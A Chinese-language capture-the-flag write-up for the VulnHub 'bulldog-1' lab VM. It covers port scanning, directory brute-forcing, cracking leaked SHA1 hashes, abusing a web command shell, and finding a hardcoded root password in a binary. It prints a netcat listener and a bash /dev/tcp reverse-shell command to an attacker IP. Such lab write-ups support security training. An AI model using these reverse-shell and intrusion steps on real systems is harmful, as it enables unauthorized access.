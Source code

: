 # VulnHub: bulldog-1
- https://www.vulnhub.com/entry/bulldog-1,211/
## Walkthrough
使用VirtualBox開啟虛擬機，可自動取得靶機ip，利用nmap掃port，http端口80、8080，ssh端口23皆為開放狀態  
DirBuster爆破目錄，發現在/dev/中的source code有提示  
> <!--Need these password hashes for testing. Django's default is too complex-->
<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->  
把註解中的password拿去sha1 decode，求出nick跟sarah的password，試探用database(sarah)去登/admin/，成功，但無編輯權限  
發現/dev/shell網頁，登入sarah後擁有權限，試圖用bash反彈shell，失敗，最後用echo成功  
攻擊機:`nc -l 3333`  
靶機shell欄位:`echo "bash -i >& /dev/tcp/10.10.10.10/3333 0>&1" | bash`  
查看可疑user，發現bulldogadmin和django，查看bulldogadmin文件，發現可疑目錄/home/bulldogadmin/.hiddenadmindirectory
從note中發現提示  
> Literally run the app, give your account password >
用strings查看customPermissionApp，發現奇怪字眼  
`SUPERultH
imatePASH
SWORDyouH
CANTget`
研究了一下，刪掉H之後:  
`SUPERultimatePASSWORDyouCANTget`  
得到一串很像是密碼的東西，但並不確定，su試試，先解決error問題  
`python -c 'import pty;pty.spawn("/bin/bash")'`  
嘗試登入root帳號，密碼登入成功，回到/root目錄發現congrats.txt文件
`cat congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!`
